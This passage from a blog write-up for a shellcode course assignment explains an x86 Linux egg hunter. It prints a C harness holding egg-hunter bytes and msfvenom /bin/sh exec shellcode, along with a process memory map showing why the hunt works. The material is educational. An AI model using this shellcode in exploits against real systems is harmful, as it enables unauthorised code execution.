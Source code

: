 *N.B: Our egg hunter on exploit-db: [https://www.exploit-db.com/exploits/41909/](https://www.exploit-db.com/exploits/41909/).*  
  
Now let's update [shellcode.c](https://github.com/phackt/slae/blob/master/assignment3/shellcode.c):  
```c
#include<stdio.h>
#include<string.h>

unsigned char egghunter[] = \
"\xb8\x60\x80\x04\x08\xbb\x91\x50\x90\x50\x4b\x40\x39\x18\x75\xfb\xff\xe0";

unsigned char egg[] = \
"\x90\x50\x90\x50" // egg mark - do not remove
"\xbd\x64\xb2\x0c\xf4\xda\xc2\xd9\x74\x24\xf4\x5a\x31\xc9\xb1" // msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b \x00
"\x0b\x83\xc2\x04\x31\x6a\x11\x03\x6a\x11\xe2\x91\xd8\x07\xac"
"\xc0\x4f\x7e\x24\xdf\x0c\xf7\x53\x77\xfc\x74\xf4\x87\x6a\x54"
"\x66\xee\x04\x23\x85\xa2\x30\x3b\x4a\x42\xc1\x13\x28\x2b\xaf"
"\x44\xdf\xc3\x2f\xcc\x4c\x9a\xd1\x3f\xf2";

void main()
{

	printf("Egg hunter shellcode Length:  %d\n", strlen(egghunter));
	printf("Egg shellcode Length:  %d\n", strlen(egg));

	int (*ret)() = (int(*)())egghunter;

	ret();

}
```
  
Let's run our egg hunter:    
![image1]({{ site.url }}/public/images/slae/assignment3/image1.png)  
  
Perfect, but why did it work ?  In our shellcode.c the egg has been placed in the .data segment (global initialized variables). According to the following picture (anatomy of a program in memory), we can see that the .text, .data and .bss segments are contigous and readable:  

![linuxflexibleaddressspacelayout.png]({{ site.url }}/public/images/slae/assignment3/linuxflexibleaddressspacelayout.png)  
  
let's check for our shellcode's memory mapping in gdb:  
![image2]({{ site.url }}/public/images/slae/assignment3/image2.png)  
  
**1563** is our shellcode process id:  
```bash
# cat /proc/1563/maps
08048000-08049000 r-xp 00000000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
08049000-0804a000 r-xp 00000000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
0804a000-0804b000 rwxp 00001000 08:01 2885480    /root/Documents/pentest/certs/slae/exam/assignment3/shellcode
0804b000-0806c000 rwxp 00000000 00:00 0          [heap]
b7dfb000-b7fac000 r-xp 00000000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7fac000-b7fae000 r-xp 001b0000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7fae000-b7faf000 rwxp 001b2000 08:01 269855     /lib/i386-linux-gnu/libc-2.24.so
b7faf000-b7fb2000 rwxp 00000000 00:00 0 
b7fd3000-b7fd6000 rwxp 00000000 00:00 0 
b7fd6000-b7fd9000 r--p 00000000 00:00 0          [vvar]
b7fd9000-b7fdb000 r-xp 00000000 00:00 0          [vdso]
b7fdb000-b7ffd000 r-xp 00000000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
b7ffe000-b7fff000 r-xp 00022000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
b7fff000-b8000000 rwxp 00023000 08:01 269850     /lib/i386-linux-gnu/ld-2.24.so
```